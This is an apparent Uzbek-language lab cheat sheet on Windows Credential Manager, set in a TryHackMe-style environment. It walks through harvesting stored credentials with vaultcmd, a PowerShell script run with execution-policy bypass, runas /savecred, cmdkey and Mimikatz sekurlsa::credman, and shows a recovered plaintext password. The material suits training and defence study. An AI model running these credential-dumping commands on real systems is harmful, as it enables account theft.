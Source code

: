 
### Credential Manager nima?

Credential Manager — bu Windows’ning vebsaytlar, dasturlar va tarmoqlar uchun maxfiy ma'lumotlarni saqlovchi xususiyati hisoblanadi. U foydalanuvchi nomlari, parollar va internet manzillar kabi login ma'lumotlarini o‘zida saqlaydi. Credential Manager to‘rtta toifaga bo‘linadi:

1. **Web credentials** – Veb brauzerlar yoki boshqa dasturlar tomonidan saqlangan avtorizatsiya ma'lumotlari.
2. **Windows credentials** – Windows avtorizatsiya ma'lumotlari (NTLM yoki Kerberos).
3. **Generic credentials** – Oddiy foydalanuvchi nomi va parollar kabi avtorizatsiya ma'lumotlari (aniq matnda).
4. **Certificate-based credentials** – Sertifikatlarga asoslangan avtorizatsiya ma'lumotlari.

Eslatma: Ushbu ma'lumotlar foydalanuvchining shaxsiy papkasida saqlanadi va boshqa foydalanuvchi akkauntlari bilan bo‘lishilmaydi. Ammo ular tizim xotirasida (RAM) kesh holatida bo‘ladi.

---

### Credential Manager’ga qanday kiriladi?

Credential Manager’ga GUI orqali kirish mumkin:
**Control Panel → User Accounts → Credential Manager**
Yoki **komanda satri orqali**. Bu vazifada GUI mavjud bo‘lmagan holatdagi komanda satridan foydalanamiz.

![](https://github.com/akhatkulov/cheatsheets-for-windows/blob/main/Credentials%20Harvesting/Windows%20Credential%20Manager/Windows%20Credential%20Manager.png?raw=true)

---

### Credentiallarni tekshirish (vaultcmd bilan)

1. Mavjud vault’larni ko‘rish:

```shell
C:\Users\Administrator>vaultcmd /list
```

2. Web Credential’larda ma'lumotlar bormi, tekshirish:

```shell
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
```

Natijada:

* Saqlangan credentiallar soni: 1
* Himoya usuli: DPAPI

3. Credential tafsilotlarini ko‘rish:

```shell
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
```

Natija:

* Resurs: `internal-app.thm.red`
* Foydalanuvchi: `THMUser`
* Brauzer: `MSEdge`

---

### Credentiallarni olish (PowerShell orqali)

VaultCmd parolni ko‘rsata olmaydi. Ammo `Get-WebCredentials.ps1` PowerShell skriptidan foydalanish mumkin:

```shell
C:\Users\Administrator>powershell -ex bypass
PS> Import-Module C:\Tools\Get-WebCredentials.ps1
PS> Get-WebCredentials
```

Natijada:

* Foydalanuvchi: THMUser
* Resurs: internal-app.thm.red
* Parol: `Password!`

---

### RunAs orqali Credential’lardan foydalanish

`RunAs` — Windows dasturlarini boshqa foydalanuvchi nomidan ishga tushirish imkonini beruvchi buyruq.

```shell
runas /savecred /user:THM.red\thm-local cmd.exe
```

* `/savecred` – credential’ni Credential Manager’da saqlaydi.
* `whoami` buyrug‘i orqali sessiyani kim nomidan ishga tushganini tekshirish mumkin.

---

### cmdkey orqali credentiallarni ko‘rish

```shell
C:\Users\thm>cmdkey /list
```

Natija:

* Target: `Domain:interactive=thm\thm-local`
* Foydalanuvchi: `thm\thm-local`

---

### Credentiallarni xotiradan olish (Mimikatz bilan)

Mimikatz yordamida Credential Manager’dan saqlangan ma’lumotlarni (shu jumladan aniq matndagi parollarni) xotiradan olish mumkin:

```shell
C:\Users\Administrator>c:\Tools\Mimikatz\mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::credman
```

Bu orqali Credential Manager’da saqlangan parollarni to‘g‘ridan-to‘g‘ri xotiradan chiqarib olish mumkin.

---

### Eslatma

Bu texnikalarni boshqa vositalar yordamida ham amalga oshirish mumkin:

* **Empire**
* **Metasploit**
  Qo‘shimcha bilim olish uchun ushbu vositalar haqida mustaqil o‘rganishni tavsiya qilamiz.

